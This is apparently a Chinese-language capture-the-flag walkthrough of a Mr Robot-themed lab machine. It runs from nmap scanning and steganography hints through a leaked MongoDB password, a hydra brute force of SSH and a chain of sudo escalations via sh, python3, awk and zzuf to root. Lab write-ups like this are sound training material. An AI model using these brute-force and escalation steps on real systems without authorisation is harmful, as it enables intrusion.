


## 靶机地址

[Proton Drive](https://drive.proton.me/urls/HHFQAPHSSW#q08xjb31dj2E)


## 信息收集

### nmap扫描

#### 准备阶段

```
mkdir nmapscan
```


创建文件夹用来存放nmap扫描结果


#### 主机探测

```
nmap -sn 192.168.1.0/24
```


确定靶机ip：

192.168.1.10


#### 端口扫描

```
nmap -p- --min-rate 10000 -sT 192.168.1.10 -oA nmapscan/ports
```

开放了：

- 22 ssh
- 80 http
- 27017 mongod


#### 提取端口信息

```
ports
```


#### 详细结果扫描

```
nmap -sC -sV -O -p 22,80,27017 192.168.1.10 -oA ./nmapscan/detail
```


分析：

- 22 ssh OpenSSH 8.4p1
- 80  http Apache httpd 2.4.56
- 27017 mongodb 5.0.21


### 80端口

#### 访问192.168.1.10


一张图片


#### 右键复制图像链接


#### wget保存图片

```
wget http://192.168.1.10/image.jpg
```


#### steghide检查


可能存在隐写数据，免密提取失败


#### stegseek尝试提取

```
stegseek -sf image.jpg -wl /home/ra1n3/dic/Passwd/rockyou.txt
```


#### exiftools查看图片元数据

```
exiftool image.jpg
```


Comment中存在提示

1337编码

还原后为：

- BackUp_Elliot

同时/提示可能是一个目录


#### 尝试爆破目录中的备份文件

```
gobuster dir -u http://192.168.1.10/B4ckUp_3LLi0t/ -w /usr/share/dirbuster/wordlists/directory-lis
t-2.3-medium.txt -x tar,zip,rar,bak
```


得到connect.bak


#### wget下载

```
wget http://192.168.1.10/B4ckUp_3LLi0t/connect.bak
```




#### 查看connect.bak

```
file connect.bak
cat connect.bak
```


给出了mongodb的用户名和密码


### 27017端口

#### 连接数据库

```
mongo -host 192.168.1.10 -u 'mongo' -p 'm0ng0P4zz' elliot
```




#### 查询数据库内容

```
help
show dbs
use elliot
db.elliot.find()
```


得到

- FirstName : Elliot

- Surname : Alderson
- Nickname : MrRobot
- Birthdate: 17091986


#### 利用cupp生成字典

```
cupp -i
Elliot
Alderson
MrRobot
17091986
```


得到字典


### 22端口

#### 尝试爆破ssh服务

```
hydra -l elliot -P elliot.txt ssh://192.168.1.10
```


得到：

- elliot：toillE71986


#### ssh登录

```
ssh elliot@192.168.1.10
```


## 提权

### 执行sudo -l

```
sudo -l
```


以darlene身份执行sh


### sh提权

```
sudo -u darlene sh
whoami
```


### 执行sudo -l

```
sudo -l
```


以angela身份执行python3


### python提权

```
sudo -u angela python3 -c 'import os; os.system("/bin/sh")'
whoami
```


### 执行sudo -l

```
sudo -l
```


以tyrell身份执行awk


### awk提权

```
sudo -u tyrell awk 'BEGIN {system("/bin/sh")}'
whoami
```


### 执行sudo -l

```
sudo -l
```


无密码执行zzuf


### 查看使用文档

```
cd /tmp
man zzuf > help
cat help
```


```
zzuf 是一个透明的应用程序输入模糊测试工具。它通过拦截文件和网络操作，并改变程序输入中的随机比特来工作。zzuf 的行为是确定性的，这使得重现错误变得简单。
```


其中-c选项允许执行命令


### zzuf提权

```
sudo zzuf -c /bin/sh
whoami
```


### 得到flag

```
cd /root
ls
cat root.txt
```

